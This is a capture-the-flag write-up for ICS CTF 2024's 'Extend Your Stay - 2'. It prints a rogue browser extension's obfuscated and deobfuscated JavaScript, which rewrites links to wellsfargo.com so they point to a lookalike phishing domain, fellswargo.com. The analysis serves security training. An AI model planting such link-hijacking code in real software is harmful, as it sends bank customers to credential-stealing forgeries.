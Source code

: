 # ICS CTF 2024 - Extend Your Stay 2

**Title:** Extend Your Stay - 2

**Description:** Along with protecting internet users from rodents, this extension (same extension as `Extend Your Stay - 1` seems to hijack links to a particular site and redirect them to a forgery with a similar-looking URL controlled by the developers. What is the URL of the site that links get redirected to?  
  
_Flag format: URL. Example: **[http://www.example.com](http://www.example.com/)**_

**File:** [no_more_rodents.crx](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_1_and_2/no_more_rodents.crx)
## Solution:

Looking at the [background.js](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_1_and_2/background.js) file, we see this obfuscated javascript code:
```javascript
    var _0x4808c5=_0x4d65;function _0x4d65(_0x1ac046,_0xdb813f){var _0x42de99=_0x42de();return _0x4d65=function(_0x4d65e4,_0x2bb8e7){_0x4d65e4=_0x4d65e4-0xb3;var _0x3d9dce=_0x42de99[_0x4d65e4];return _0x3d9dce;},_0x4d65(_0x1ac046,_0xdb813f);}(function(_0xad6f15,_0x121327){var _0xc7839f=_0x4d65,_0x5a0ac3=_0xad6f15();while(!![]){try{var _0x8cad1a=-parseInt(_0xc7839f(0xbc))/0x1*(parseInt(_0xc7839f(0xba))/0x2)+-parseInt(_0xc7839f(0xb6))/0x3*(parseInt(_0xc7839f(0xb9))/0x4)+-parseInt(_0xc7839f(0xb7))/0x5+parseInt(_0xc7839f(0xb5))/0x6+parseInt(_0xc7839f(0xbb))/0x7*(parseInt(_0xc7839f(0xb8))/0x8)+parseInt(_0xc7839f(0xb4))/0x9*(-parseInt(_0xc7839f(0xbe))/0xa)+parseInt(_0xc7839f(0xc0))/0xb*(parseInt(_0xc7839f(0xb3))/0xc);if(_0x8cad1a===_0x121327)break;else _0x5a0ac3['push'](_0x5a0ac3['shift']());}catch(_0x1ba48e){_0x5a0ac3['push'](_0x5a0ac3['shift']());}}}(_0x42de,0x583a6));function _0x42de(){var _0x2b65ad=['href','8856cNMCoO','32787TKstXc','540444COUjiw','1317BdQCgn','2249910WgEroQ','7640EMFxQu','3124SVgnKu','2XPDNHL','3073UIRrAf','628931indBOZ','length','10AaewyR','includes','19041ygvqPQ'];_0x42de=function(){return _0x2b65ad;};return _0x42de();}var rodents=document['getElementsByTagName']('a');for(var i=0x0;i<rodents[_0x4808c5(0xbd)];i++){rodents[i][_0x4808c5(0xc1)][_0x4808c5(0xbf)](atob('aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v'))&&(rodents[i][_0x4808c5(0xc1)]=atob('aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v'));}
```

I used an online deobfuscator called [deobfuscate.io](https://obf-io.deobfuscate.io/) to deobfuscate it, and this is the output we get:

```javascript
var _0x4808c5 = _0x4d65;
function _0x4d65(_0x1ac046, _0xdb813f) {
  var _0x42de99 = _0x42de();
  _0x4d65 = function (_0x4d65e4, _0x2bb8e7) {
    _0x4d65e4 = _0x4d65e4 - 0xb3;
    var _0x3d9dce = _0x42de99[_0x4d65e4];
    return _0x3d9dce;
  };
  return _0x4d65(_0x1ac046, _0xdb813f);
}
(function (_0xad6f15, _0x121327) {
  var _0xc7839f = _0x4d65;
  var _0x5a0ac3 = _0xad6f15();
  while (true) {
    try {
      var _0x8cad1a = -parseInt(_0xc7839f(0xbc)) / 0x1 * (parseInt(_0xc7839f(0xba)) / 0x2) + -parseInt(_0xc7839f(0xb6)) / 0x3 * (parseInt(_0xc7839f(0xb9)) / 0x4) + -parseInt(_0xc7839f(0xb7)) / 0x5 + parseInt(_0xc7839f(0xb5)) / 0x6 + parseInt(_0xc7839f(0xbb)) / 0x7 * (parseInt(_0xc7839f(0xb8)) / 0x8) + parseInt(_0xc7839f(0xb4)) / 0x9 * (-parseInt(_0xc7839f(0xbe)) / 0xa) + parseInt(_0xc7839f(0xc0)) / 0xb * (parseInt(_0xc7839f(0xb3)) / 0xc);
      if (_0x8cad1a === _0x121327) {
        break;
      } else {
        _0x5a0ac3.push(_0x5a0ac3.shift());
      }
    } catch (_0x1ba48e) {
      _0x5a0ac3.push(_0x5a0ac3.shift());
    }
  }
})(_0x42de, 0x583a6);
function _0x42de() {
  var _0x2b65ad = ['href', '8856cNMCoO', '32787TKstXc', '540444COUjiw', '1317BdQCgn', '2249910WgEroQ', '7640EMFxQu', '3124SVgnKu', '2XPDNHL', '3073UIRrAf', '628931indBOZ', 'length', '10AaewyR', 'includes', '19041ygvqPQ'];
  _0x42de = function () {
    return _0x2b65ad;
  };
  return _0x42de();
}
var rodents = document.getElementsByTagName('a');
for (var i = 0x0; i < rodents[_0x4808c5(0xbd)]; i++) {
  if (rodents[i][_0x4808c5(0xc1)][_0x4808c5(0xbf)](atob('aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v'))) {
    rodents[i][_0x4808c5(0xc1)] = atob('aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v');
  }
}
```

Straight up we see two base64 strings: `aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v` and `aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v`, 

In plain terms, this code is checking if a property of each `rodents` array item contains the URL `"aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v"`. If it does, it replaces that URL with `"aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v"`, decoding these, we get:

```bash
$ echo "aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v" | base64 -d
https://www.wellsfargo.com/
```
and
```bash
$ echo "aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v" | base64 -d
https://www.fellswargo.com/
```

And that's our flag: `https://www.fellswargo.com`

